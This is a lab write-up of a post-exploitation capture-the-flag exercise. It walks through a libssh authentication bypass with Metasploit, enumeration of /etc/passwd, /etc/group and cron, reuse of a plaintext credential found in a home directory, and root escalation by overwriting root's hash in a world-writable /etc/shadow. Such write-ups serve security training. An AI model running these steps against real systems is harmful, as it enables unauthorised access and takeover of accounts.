# Host & Network Penetration Testing: Post-Exploitation CTF 1

## Overview

This lab shifted focus from initial access to **post-exploitation**: once inside a target, the goal was to dig through the filesystem for sensitive configuration files, credentials, and misconfigurations, then use what was found to pivot laterally into a second host and escalate to root. The chain moved from a vulnerable SSH library on Target 1, through systematic local enumeration (`/etc/passwd`, `/etc/group`, cron jobs, `/etc/hosts`, home directories), to credential reuse against Target 2 and a world-writable `/etc/shadow` file that allowed direct privilege escalation to root.

**Objectives:**

- **Flag 1** — Inspect the file that stores user account details (`target1.ine.local`)
- **Flag 2** — Investigate user groups for hidden information
- **Flag 3** — Examine scheduled tasks (cron jobs) for a telling clue
- **Flag 4** — Check DNS configuration and home directories for stored credentials
- **Flag 5** — Use discovered credentials to escalate privileges and read root's home directory on `target2.ine.local`

---

## Target 1 — Enumeration

| | |
|---|---|
| IP | 192.177.70.4 |
| Hostname | target1.ine.local |

A Metasploit workspace was created and a full service scan launched:

```bash
service postgresql start && msfconsole
workspace -a target1

db_nmap -sV -sC -O -p- target1.ine.local
```

**Result:**

```text
22/tcp open  ssh  libssh 0.8.3 (protocol 2.0)
| ssh-hostkey:
|_  2048 31:e2:1d:f1:b2:39:0c:a3:ec:db:01:4a:eb:a2:39:c7 (RSA)
```

The single exposed service was SSH, but the version banner was the real finding: **libssh 0.8.3** is affected by a well-known authentication bypass vulnerability (CVE-2018-10933), where a crafted `SSH2_MSG_USERAUTH_SUCCESS` message sent by the client tricks the server into treating the session as authenticated without ever supplying valid credentials.

---

## Initial Access — libssh Authentication Bypass

Metasploit's dedicated scanner/exploit module for this vulnerability was used:

```text
use auxiliary/scanner/ssh/libssh_auth_bypass
set RHOSTS target1.ine.local
set SPAWN_PTY true
```

Running this against the target returned an authenticated session without needing any credentials at all.



With shell access established, the post-exploitation phase began: methodically walking through the standard set of "interesting files" on any freshly compromised Linux host.

---

## Flag 1 — User Account Details

The hint pointed directly at the file that stores user account information — the classic starting point for any Linux enumeration:

```bash
cat /etc/passwd
```

This listing of system and user accounts contained the first flag embedded directly in the output:

```text
Flag 1: FLAG1_9515ad3db5744345bd68affdb09fdd9c
```



---

## Flag 2 — Group Membership

Following the same logic, group membership often reveals more than account listings alone — particularly which users belong to privileged groups like `sudo`, `docker`, or `adm`. The group file was checked next:

```bash
cat /etc/group
```

```text
Flag 2: FLAG2_4b62623c1308419a94395e65e693d300
```



---

## Flag 3 — Scheduled Tasks (Cron)

The hint called out scheduled tasks specifically, so the system-wide cron directory was the natural target rather than user crontabs:

```bash
ls -la /etc/cron.d
```

A telling filename inside the directory pointed straight to the flag:

```text
Flag 3: FLAG3_a6e842a3d8d74e38901abd0fdb5c1003
```



This step is a good reminder that cron jobs are a common place for administrators to leave scripts, paths, or even credentials that reveal how a system is actually being maintained.

---

## Flag 4 — DNS Configuration & Home Directory Credentials

The hint had two parts: check DNS configuration, and check home directories for stored credentials. Starting with the hosts file:

```bash
cat /etc/hosts
```

```text
Flag 4: FLAG4_fb02a3468a20405db8dbf8de77026efb
```



The second half of the hint led to checking user home directories, where a credential pair was discovered sitting in plaintext:

```text
john : Pass@john123
```



Given the structure of the lab (two targets, with Flag 5 explicitly requiring "discovered credentials"), these were clearly meant to be carried forward and tested against Target 2 — a textbook example of **credential reuse across hosts** discovered during post-exploitation.

---

## Target 2 — Enumeration

A scan was run against the second host to map its attack surface before attempting to reuse the `john` credentials:

```bash
db_nmap -sV -sC -O -p- target2.ine.local
```

**Result:**

```text
22/tcp open  ssh   OpenSSH 8.9p1 Ubuntu
25/tcp open  smtp  Postfix smtpd
80/tcp open  http  Apache httpd 2.4.52 (Ubuntu, default page)
```

With SSH exposed and the default Apache page giving nothing away on port 80, SSH was the obvious entry point for the credentials recovered from Target 1.

---

## Flag 5 — Credential Reuse & Privilege Escalation via World-Writable `/etc/shadow`

The `john` credentials from Target 1 were tested directly against SSH on Target 2:

```bash
ssh john@target2.ine.local
# Password: Pass@john123
```



Login succeeded. With the brief explicitly stating the flag was inside `/root`, the next step was identifying a path to privilege escalation. Rather than jumping straight to SUID binaries or sudo rights, a broader permissions sweep was run, looking for any file on the system that was writable by everyone:

```bash
find / -not -type l -perm -o+w
```

This turned up something unusual and immediately serious: `/etc/shadow` — the file storing password hashes for every user, including root — was world-writable.

```bash
cat  /etc/shadow
```

```text
-rw-rw-rw- 1 root shadow 959 Nov 14 2024 /etc/shadow
```



This is about as direct a privilege escalation path as exists on Linux: if an unprivileged user can write to `/etc/shadow`, they can simply overwrite the root account's password hash with one of their own choosing, then `su` to root using that password.

**Step 1 — Generate a new password hash:**

```bash
openssl passwd -1 -salt abc password
```

```text
$1$abc$BXBqpb9BZcZhXLgbee.0s/
```

**Step 2 — Edit `/etc/shadow` and replace root's existing hash with the newly generated one:**

```bash
nano /etc/shadow
```


The root entry's password field was overwritten with the freshly generated hash, effectively setting root's password to `password`.

**Step 3 — Switch to root using the new password:**

```bash
su
# Password: password
```


This granted a full root shell. From there, the final flag was retrieved from the root home directory:

```text
Flag 5: flag5_59a8915af1a3047c08194ea60ab8b6a9a
```



---

## Flags Captured

| Flag | Value |
|---|---|
| Flag 1 | `FLAG1_9515ad3db5744345bd68affdb09fdd9c` |
| Flag 2 | `FLAG2_4b62623c1308419a94395e65e693d300` |
| Flag 3 | `FLAG3_a6e842a3d8d74e38901abd0fdb5c1003` |
| Flag 4 | `FLAG4_fb02a3468a20405db8dbf8de77026efb` |
| Flag 5 | `flag5_59a8915af1a3047c08194ea60ab8b6a9a` |

---

## Privilege Escalation & Lateral Movement Logic

This lab was less about finding a single exploit and more about disciplined enumeration. The overall thought process at each stage:

1. **Identify the foothold vector first.** The libssh version banner immediately signaled a known CVE rather than a service worth brute-forcing — checking version numbers against known vulnerabilities before attempting credential attacks saved time.
2. **Run a standard post-exploitation checklist.** Once inside, the approach followed a fixed mental checklist regardless of what the hints said: user accounts (`/etc/passwd`), group memberships (`/etc/group`), persistence/scheduled tasks (`/etc/cron.d`), network/DNS config (`/etc/hosts`), and home directories for stray credentials. This checklist is reusable on virtually any compromised Linux host, not just this lab.
3. **Treat every discovered credential as a lateral movement opportunity.** Finding `john`'s password on Target 1 immediately raised the question of where else it might work — in multi-host environments, credential reuse across machines is extremely common, so every found credential gets tested against every other accessible service.
4. **For privilege escalation, check permissions broadly before reaching for exploits.** Rather than assuming a CVE or SUID binary would be the path up, a permissions sweep (`find / -not -type l -perm -o+w`) was run to catch any obviously broken file permissions first. This is a low-cost, high-yield check — world-writable sensitive files are rare but trivially exploitable when present.
5. **Leverage `/etc/shadow` write access directly rather than cracking hashes.** Since write access was available, generating a new hash with `openssl passwd` and inserting it directly was far faster and more reliable than attempting to crack the existing root hash offline.

---

## Key Takeaways

- Version banners matter: libssh 0.8.3 was vulnerable to a known authentication bypass (CVE-2018-10933), giving a session with zero valid credentials.
- A consistent, repeatable post-exploitation checklist (`/etc/passwd`, `/etc/group`, cron jobs, `/etc/hosts`, home directories) reliably surfaces flags and real-world artifacts like leftover credentials.
- Credentials discovered on one host should always be tested against other accessible hosts and services — lateral movement frequently hinges on simple password reuse.
- A world-writable `/etc/shadow` is one of the most severe misconfigurations possible on a Linux system: it converts any low-privileged shell into root with a single edited line.
- When write access to a sensitive file is available, generating and inserting a known hash is faster and more reliable than attempting to crack existing ones offline.

## Skills Practiced

- Service Enumeration & Version Fingerprinting
- libssh Authentication Bypass (CVE-2018-10933)
- Linux Local Enumeration (`/etc/passwd`, `/etc/group`, cron, `/etc/hosts`)
- Home Directory Credential Discovery
- Lateral Movement via Credential Reuse
- File Permission Auditing (`find -perm`)
- Privilege Escalation via World-Writable `/etc/shadow`
- Password Hash Generation (`openssl passwd`)
- Linux Privilege Escalation Methodology